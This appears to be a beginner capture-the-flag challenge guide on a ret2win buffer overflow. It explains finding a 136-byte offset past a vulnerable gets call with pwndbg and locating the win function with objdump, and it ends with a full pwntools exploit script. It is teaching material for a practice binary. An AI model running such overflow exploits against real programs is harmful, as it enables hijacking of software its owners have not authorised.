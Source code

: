# Challenge Name
kid_R2W

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, 
1. `enlightenment` function has a vulnerable `gets` function.
2. `hiddenBlessing` function contains the flag.

We want to perform ret2win in this case.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `hiddenBlessing` address

#### To find the offset needed:
1. use `cyclic 200` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `raaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l raaaaaaa
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

#### To find the win address:
```shell
$> objdump -d kid_R2W_bin | grep hiddenBlessing
00000000004006d7 <hiddenBlessing>:
...
```

#### How do we place inputs for the options then?
You can do the following so that it sends what you want after the binary output:
```python
input = b"abc\n"
p.sendafter("binary output", input)
```

With that knowledge, we can put our solve script together!

#### Final Solution
```python
from pwn import *

# local solve
p = process("./kid_R2W_bin")
context.binary = "./kid_R2W_bin"

# remote solve
# p = remote (server, port)

# hiddenBlessing function
win = p64(0x4006d7) + b'\n'

# Choose option first to enlightenment function
option = b'2\n'
p.sendlineafter("purpose: \n", option)


# send payload after sendting option
payload = b'A' * 136  
payload += win        
p.sendafter("know? \n", payload)

p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. which part of the code has a vulnerable C function?
2. check out sendafter: https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679

## Attached Files
- baby_R2W.c
- baby_R2W_bin

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win
- https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679
- https://docs.pwntools.com/en/dev/tubes.html


## Flag
TBD